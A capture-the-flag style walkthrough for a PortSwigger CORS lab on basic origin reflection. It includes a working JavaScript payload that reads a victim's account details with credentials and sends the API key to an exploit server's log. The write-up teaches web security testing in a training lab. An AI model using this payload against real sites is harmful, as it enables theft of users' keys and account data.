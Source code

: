 # Cross-origin resource sharing (CORS)

> Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain. It extends and adds flexibility to the same-origin policy (SOP). However, it also provides potential for cross-domain attacks, if a website's CORS policy is poorly configured and implemented. CORS is not a protection against cross-origin attacks such as cross-site request forgery (CSRF).

## Lab 1 : CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

### Sol :

* Log in and access the account page with the `wiener:peter` credentials.

* Go to `http history` and observe that out key is retrieved via an request to `/accountDetails` and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/7996a544-582b-4347-aeb8-9d12fe6e9b6c)

* Send it to the Burp Repeater

* Add header `Origin` and give a example website to check the response

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/1aa6a719-0d7d-487c-9cf7-d01edcf86d7d)

* Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
* Click on `Go to exploit server` in the lab.
* Give the below script in the body box by giving lab ID of yours.

      <html>
      <body>
          <h1>Hello World!</h1>
          <script>
              var xhr = new XMLHttpRequest();
              var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net"
              xhr.onreadystatechange = function() {
                  if (xhr.readyState == XMLHttpRequest.DONE){
                      fetch("/log?key=" + xhr.responseText)
                  }
              }

              xhr.open('GET', url + "/accountDetails", true);
              xhr.withCredentials = true;
              xhr.send(null)
          </script>
        </body>
      </html>
      
 * Click `View exploit`. Observe that the exploit works - you have landed on the log page and your API key is in the URL
 
 
* Go back to the exploit server and click `Deliver exploit to victim`
* Click `Access log`, retrieve and submit the victim's API key to complete the lab.


* Thus, the lab is solved
